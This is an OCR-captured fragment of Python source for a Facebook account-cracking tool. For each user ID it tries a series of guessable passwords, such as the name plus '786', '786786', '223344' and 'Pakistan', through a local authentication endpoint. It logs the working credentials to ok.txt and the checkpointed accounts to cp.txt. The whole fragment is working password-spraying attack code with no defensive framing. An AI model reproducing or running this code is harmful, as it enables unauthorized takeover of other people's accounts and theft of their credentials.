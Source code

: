 									print("\033[1;91m[CheckPoint] "+uid+" | "+pass3)
									cp = open("cp.txt","a")
									cp.write(uid+" | "+pass3+"\n")
									cp.close()
									cps.append(uid+pass3)
								else:
									pass4 = name+"786"
									data = requests.get("http://localhost:5000/auth?id="+uid+"&pass="+pass4, headers=header).text
									q = json.loads(data)
									if "loc" in q:
										print("\033[1;92m[Successful] \033[1;96m"+uid+" | "+pass4+"\033[0;97m")
										ok = open("ok.txt","a")
										ok.write(uid+" | "+pass4+"\n")
										ok.close()
										oks.append(uid+pass4)
									else:
										if "www.facebook.com" in q["error"]:
											print("\033[1;91m[CheckPoint] "+uid+" | "+pass4)
											cp = open("cp.txt","a")
											cp.write(uid+" | "+pass4+"\n")
											cp.close()
											cps.apppend(uid+pass4)
										else:
											pass5 = "786786"
											data = requests.get("http://localhost:5000/auth?id="+uid+"&pass="+pass5, headers=header).text
											q = json.loads(data)
											if "loc" in q:
												print("\033[1;92m[Successful] \033[1;96m"+uid+" | "+pass5+"\033[0;97m")
												ok = open("ok.txt","a")
												ok.write(uid+" | "+pass5+"\n")
												ok.close()
												oks.append(uid+pass5)
											else:
												if "www.facebook.com" in q["error"]:
													print("\033[1;91m[CheckPoint] "+uid+" | "+pass5)
													cp = open("cp.txt","a")
													cp.write(uid+" | "+pass5+"\n")
													cp.close()
													cps.append(uid+pass5)
												else:
													pass6 = "223344"
													data = requests.get("http://localhost:5000/auth?id="+uid+"&pass="+pass6).text
													q = json.loads(data)
													if "loc" in q:
														print("\033[1;92m[Successful] \033[1;96m"+uid+" | "+pass6+"\033[0;97m")
														ok = open("ok.txt","a")
														ok.write(uid+" | "+pass6+"\n")
														ok.close()
														oks.append(uid+pass6)
													else:
														if "www.facebook.com" in q["error"]:
															print("\033[1;91m[CheckPoint] "+uid+" | "+pass6)
															cp = open("cp.txt","a")
															cp.write(uid+" | "+pass6+"\n")
															cp.close()
															cps.append(uid+pass6)
														else:
															pass7 = "Pakistan"
															data = requests.get("http://localhost:5000/auth?id="+uid+"&pass="+pass7, headers=header).text
															q = json.loads(data)
															if "loc" in q:
																print("\033[1;92m[Successful] \033[1;96m"+uid+" | "+pass7+"\033[0;97m")
																ok = open("ok.txt","a")
																ok.write(uid+" | "+pass7+"\n")